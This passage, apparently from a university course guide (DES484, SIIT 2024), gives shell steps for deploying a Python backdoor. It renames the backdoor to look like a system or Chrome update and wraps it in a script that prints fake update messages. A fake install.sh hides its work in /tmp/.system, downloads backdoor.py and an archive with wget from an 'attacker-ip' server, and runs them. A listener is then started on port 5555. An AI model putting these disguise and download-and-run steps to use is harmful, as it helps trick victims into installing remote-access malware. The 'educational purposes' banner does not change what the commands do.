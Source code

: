 #### Method B: Social Engineering Simulation

**Disguise the backdoor:**

```bash
# Rename to look legitimate
mv backdoor.py system_update.py
# or
mv backdoor.py chrome_installer.py

# Create wrapper script
cat > update.sh << 'EOF'
#!/bin/bash
echo "Installing system updates..."
python3 system_update.py &
echo "Update complete!"
EOF
chmod +x update.sh
```

#### Method C: Exploit Simulation

**Simulate web exploit:**

```bash
# Create fake installer
cat > install.sh << 'EOF'
#!/bin/bash
echo "Installing required packages..."
cd /tmp
mkdir -p .system
cd .system
# Download backdoor (from your server)
wget http://attacker-ip:8000/backdoor.py
wget http://attacker-ip:8000/features.tar.gz
tar -xzf features.tar.gz
python3 backdoor.py &
EOF
```

### Phase 4: Execution

#### 4.1 Start Attacker Listener

```bash
# On attacker machine
cd ~/Desktop/DES484_Backdoor
python3 server.py

# You should see:
# ╔═══════════════════════════════════════════════════════════════╗
# ║           Enhanced Backdoor Controller v2.0                   ║
# ║              For Educational Purposes Only!                   ║
# ║                  DES484 - SIIT 2024                          ║
# ╚═══════════════════════════════════════════════════════════════╝
#
# [+] Listening on 0.0.0.0:5555
# [*] Waiting for incoming connections...
```
